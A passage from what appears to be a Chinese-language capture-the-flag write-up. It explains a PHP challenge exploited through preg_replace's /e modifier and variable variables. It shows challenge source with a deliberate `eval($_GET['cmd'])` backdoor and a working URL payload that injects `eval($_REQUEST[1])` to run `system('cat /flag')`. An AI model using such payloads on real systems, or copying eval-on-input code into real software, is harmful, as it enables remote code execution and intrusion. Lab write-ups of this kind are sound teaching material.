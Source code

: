 ```php
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

主要考察 preg_replace 中 `/e` 修饰符导致的代码执行, 以及 PHP 的可变变量

参考文章

[https://xz.aliyun.com/t/2557](https://xz.aliyun.com/t/2557)

[https://www.php.net/manual/zh/language.variables.variable.php](https://www.php.net/manual/zh/language.variables.variable.php)

payload 如下, 没用到 getFlag 这个函数, 非要用的话思路也差不多

```
http://0c7c25eb-0cf1-48a3-9275-3e974778839f.node4.buuoj.cn:81/next.php?\S*={${eval($_REQUEST[1])}}&1=system('cat /flag');
```

因为 PHP get 参数名中的 `.` 会被转换成 `_`, 所以不能用 `.*` 这个正则

`\S` 表示匹配任意非空白符的字符, `*` 表示重复零次或更多次

另外不太清楚 `{${phpinfo()}}` 为什么最外层还要加一组大括号, 可能是这个原因?

![](assets/202208251851177-170074459625449.png)

## [BSidesCF 2020]Had a bad day（文件包含，php://filter 遇到不认识的过滤器会自动跳过）

![](assets/202208251912700-170074459625451.png)
